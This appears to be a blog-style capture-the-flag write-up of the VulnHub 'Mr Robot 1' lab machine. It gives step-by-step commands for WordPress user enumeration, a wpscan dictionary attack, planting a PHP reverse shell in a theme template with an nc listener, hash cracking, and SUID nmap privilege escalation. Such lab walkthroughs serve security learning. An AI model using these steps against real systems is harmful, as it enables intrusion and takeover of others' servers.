 <!-- Title: Hacking Mr Robot Style
save_as:mrR0b0+.html
Slug: mrR0b0+
Date: 2018-04-16 -->
# Hackin Like Mr. Robot
### By: Daniel Santiago
  > A simple writeup of the 'mr robot 1' challenge from vulnhub.com
  challenge: https://www.vulnhub.com/entry/mr-robot-1,151/
  Tools: https://www.offensive-security.com/kali-linux-vmware-virtualbox-image-download/


  1. First we need to 'probe' the machine to see what's going on:
    * `nmap -sV <target IP>`
  2. As you can see this machine has an open `http` connection on port: `80`. So the next thing to try is open that IP address in the browser to see what it is.

  3. Since this is kind of an interactive page and we are not sure if we can actually use what we are seeing to exploit the machine we should now try to check what's in the `robots.txt` page (this is a 'standard' file in most websites, here's a link with some info: `https://moz.com/learn/seo/robotstxt`).

  4. Now that we can see some files notice that we found our first key `key-1-of-3.txt`. Now let's go ahead and check that other file that we are getting(`fsociety.dic`).

  5. Since we now have a password dictionary let's go ahead and sort it and count the words to see if we have repeated passwords.
    ```
    $wget <target IP>/fsociety.dic
    $wc -l fsociety.dic
    $sort -u fsociety.dic > sorted.txt
    $wc -l sorted.txt
    ```

  6. Notice that we lowered our number of passwords. The next thing we should check is if the page that we are checking is a `WordPress` page. To do this just try to navigate to `<target IP>/readme.html` if you find a page that tells you the version of word press you win.

  7. Now that we now that this is a `WordPress` page we can use simple tools to try and exploit it. Let's go ahead and try to get into the `wp-login.php` page of the site. Navigate to '<target IP>/wp-login.php'. A nice thing that `WordPress` does for us hackers is tell us what users are valid targets or not. Notice that if you enter a random user and password combination the page will actually tell you if the user is a valid user for that site by giving us an error and telling us we are using an invalid username.(how nice of `WordPress`).

  8. Since this is a `Mr Robot` challenge we should try to reference some of the show's characters. Try entering the names of a few characters until you find a valid one.

  9. Now that we have a username we should try to use our trusty `wpscan` tool with our password list for a nice dictionary attack on the site.
  ```
  $wpscan -u http://<target Ip>/wp-login.php --wordlist <sorted.txt> --username elliot --wp-content-dir wp-content
  ```
  10. Now that we have access to the `WordPress admin page` we should first see if we can upload a page or a file of some sort.
    > We will be modifying a payload that comes with kali linux that is available in /usr/share/webshells/php/php-reverse-shell.php
    * cp /usr/share/webshells/php/php-reverse-shell.php backdoor.php

  11. Let's modify our exploit according to our machine. The only things we have to modify on this fie is the `$ip` and the `$port` variables. Now that we have that let's upload the content of the page by simple going to the `Appearence>Editor` page of the `WordPress` admin page. Now choose the `404 Template` and go ahead and substitute it's content with the code of our exploit.

  12. Next we have to setup a `listener` for this we will be using our networking `swiss army knife`
    ```
    nc -lvnp <port>
    ```

  13. Now that we have our listener all we need to do is try to go to a page such that we get the `404 Template`

  14. Now that we have a shell let's get something out of the way and `spawn` a "proper" shell
    ```
    $python -c "import pty; pty.spawn('/bin/sh')"
    ```

  15. Let's navigate to `/home` and list what's there just to see what we can find.
    ```
    $cd /home
    $ls
    cd /robot
    ```

  16. Now that we have entered one of the users `filesystem` let's see what this user has. Notice that we have just found our 2 key but we can't actually see it since it has proper user permissions.

  17. Since there's a password file let's suppose that this is the password for this user. Now we just have to crack it. Save it to a file just as it is. Next let's use `hashcat` to crack our password. (First let's get our cracking dictionary)
    ```
    $hashcat --f crackme.txt rockyou.txt
    $su robot
    ```

  18. Now that we have a password for this user let's login to see what we can find. Since we can't see what `root` has in his home folder let's try a little `priveledge escalation`.First let's see which files we can execute that belong to `root`.
    ```
    $find / -user root -perm -4000
    ```

  19. Notice that one of the binaries that we list is nmap. So let's use it's `interactive mode` to escalate to root.
    ```
    $nmap --interactive
    nmap> !sh
    ```

  20. Now that we are `root` let's navigate our `home folder`. And we have actually found our final key.

  >With love Daniel San...
